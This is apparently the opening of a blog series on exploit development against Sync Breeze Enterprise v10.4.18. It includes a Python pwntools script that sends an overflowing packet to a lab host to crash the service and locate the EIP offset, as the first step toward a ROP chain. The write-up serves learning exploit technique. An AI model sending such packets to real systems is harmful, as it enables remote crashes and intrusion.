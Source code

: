 # Sync Breeze Enterprise v10.4.18
# Outline
I'm going to start a series on exploiting a few older Windows applications to get a stronger understanding of how to create more sophisticated exploits using modern techniques. To start with I've chosen `Sync Breeze Enterprise v10.4.18` as OJ Reeves did an amazing stream a few years back covering how to exploit this which I highly recommend watching. (link here https://www.youtube.com/watch?v=jta5z4FZagM).

Instead of blindly copying his rop gadget I'm going to create a chain for VirtualAlloc, instead of VirtualProtect. At first I wanted to use a different dll but due to bad bytes that isnt easily doable. 

DISCLAIMER:
I'm going to make a lot of mistakes, instead of editing them out, I'm just going to document them and correct them later on. This should be treated more as how I approach writing an exploit rather then a precise methodology of how to craft an exploit.
With this in mind I will try to explain my reasoning for why I am doing each step. To try to this post from being way to long I'm going to get less verbose as I go along, as most of this will be following similar steps to before.


# Check Page Permissions

Code to trigger the crash

```
#!/usr/bin/env python3

import pwn

max_buf = 0x400

body = pwn.util.cyclic.cyclic_metasploit(max_buf)

deref_off = pwn.util.cyclic.cyclic_metasploit_find(0x63413187 - 0x24)
eip_off = pwn.util.cyclic.cyclic_metasploit_find(0x33654132)


body = b'A' * deref_off
body += b'B'* 4
body += b'C' * (eip_off - len(body))
body += b'D' * 4
body += b'E' * (max_buf - len(body))

header = b"\x75\x19\xba\xab"
header += pwn.p32(3)
header += pwn.p32(1)
header += pwn.p32(len(body))*2

header += pwn.p32(body[-1])

packet = header+body


s = pwn.remote('192.168.1.254', 9121)

s.send(packet)

response = s.recv(1024)

s.interactive()
```